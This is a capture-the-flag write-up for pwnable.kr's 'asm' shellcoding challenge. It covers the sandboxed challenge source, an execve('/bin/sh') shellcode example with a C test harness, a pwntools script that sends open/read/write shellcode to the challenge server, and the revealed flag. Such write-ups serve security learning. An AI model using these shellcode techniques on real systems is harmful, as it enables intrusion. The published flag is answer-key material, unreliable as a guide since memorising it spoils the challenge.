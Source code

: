 # ASM
Let's write some shell code!
## Source Code
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```
Looks like the program is asking for `shellcode` to run!


## What is shellcode
`shellcode` is a small piece of code, typically written in assembly or machine language, that is used as a payload in exploits to gain control of or execute commands on a target system.
`shellcode` is mostly assembly instructions that attacker is injecting into a program to execute malicious code!
For example, the `assembly` for:
```C
execve("/bin/sh");
```
is:
```asm
    /* execve(path='/bin/sh', argv=0, envp=0) */
    /* push b'/bin/sh\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x68732f6e69622f
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
**NOTICE**
you can generate assembly and `shellcode` for specific functions using python and `pwntools`:
```python
from pwn import *
# set the context
context(arch='amd64', os='linux')
# get the assembly
code = shellcraft.execve("/bin/sh")
# compile it
raw = asm(code)
# convert it to C escaped string
print(''.join(f'\\x{byte:02x}' for byte in raw))
```
There you have it! `shellcode` for executing `/bin/sh`.
After generating the `shellcode` you can check it like this:
```C
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

// Shellcode as a C string
unsigned char shellcode[] = "\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x2e\x63\x68\x6f\x2e\x72\x69\x01\x48\x31\x04\x24\x48\x89\xe7\x31\xd2\x31\xf6\x6a\x3b\x58\x0f\x05";

int main() {
    printf("Shellcode length: %zu\n", strlen(shellcode));

    // Get system page size
    int page_size = sysconf(_SC_PAGESIZE);
    void *shellcode_address = (void *)((unsigned long)shellcode & ~(page_size - 1));

    // Set the memory containing the shellcode to be executable
    if (mprotect(shellcode_address, page_size, PROT_READ | PROT_WRITE | PROT_EXEC) == -1) {
        perror("mprotect");
        return -1;
    }

    // Create a function pointer to the shellcode
    void (*shell)() = (void(*)())shellcode;

    // Execute the shellcode
    shell();

    return 0;
}
```
Compile and run the program:
```bash
gcc -o test test.c -z execstack -fno-stack-protector -no-pie
./test
```
The program should start and run `/bin/sh`.
**NOTICE** - you must make the stack executable! this is why we use `mprotect` and all those flags with `gcc`!
Let's get back to the challenge.

## Exploit
When you run the program it says you can insert 64 bit shell code, that using `open`,`read` and `write` `syscalls` to read the flag.
you can read about those syscalls [here](https://filippo.io/linux-syscall-table/)

Let's generate the code!
```python
from pwn import *
import sys

context(arch='amd64', os='linux')

file_name = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
length = 50

shellcode = asm(
	shellcraft.open(file_name) +
	shellcraft.read('rax', 'rsp', length) +
	shellcraft.write(1, 'rsp', length) +
	shellcraft.exit(0)
)

p = remote('pwnable.kr', 9026)
p.recvline()
p.sendline(shellcode)
p.recv()
print(p.recvline().decode())
```
run it and:
```sh
python3 exploit.py
```
And we got the flag!
```
Mak1ng_shelLcodE_i5_veRy_eaSy
```
Good Game!